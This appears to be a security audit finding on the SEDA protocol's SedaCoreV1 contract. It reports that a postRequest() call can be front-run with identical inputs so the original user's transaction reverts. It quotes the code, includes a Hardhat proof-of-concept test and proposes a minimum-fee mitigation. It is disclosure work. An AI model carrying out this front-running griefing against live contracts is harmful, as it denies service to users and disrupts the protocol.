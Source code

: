 Restless Daisy Terrier

Medium

# [M-1] Frontrunning SedaCoreV1.sol#postRequest() for griefing attack

#### Severity: Medium

Impact: Medium

Likelihood: High



## Description

An attacker can to front-run a transaction that calling `contracts/core/SedaCoreV1.sol#postRequest()` with the same `inputs` argument and creating `requests[requestId]` will revert original user's transaction.

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/abstract/RequestHandlerBase.sol#L41-L44

```solidity
    /// @inheritdoc IRequestHandler
    function postRequest(
        SedaDataTypes.RequestInputs calldata inputs
    ) public payable virtual override(IRequestHandler) returns (bytes32) {
        if (inputs.replicationFactor == 0) {
            revert InvalidReplicationFactor();
        }

        bytes32 requestId = SedaDataTypes.deriveRequestId(inputs);
        if (bytes(_requestHandlerStorage().requests[requestId].version).length != 0) {
            revert RequestAlreadyExists(requestId);
        }
```


## Impact

Such attack can disrupt  contract functioning, udermine trust, temporarily denial of service.

## Proof of Concepts

```solidity
      it('front run postRequest', async () => {
        const { core, data } = await loadFixture(deployCoreFixture);
        const resultFee = ethers.parseEther('2.0');
        const [, attacker] = await ethers.getSigners();

        await (core.connect(attacker) as SedaCoreV1).postRequest(data.requests[0], 0, resultFee, 0, { value: resultFee });

        await expect(core.postRequest(data.requests[0], 0, resultFee, 0, { value: resultFee }))
        .to.be.revertedWithCustomError(core, 'RequestAlreadyExists');

      });
```


## Recommended mitigation

Set a minimum msg.value barrier and do not allow to call `postRequest()` with zero fees.
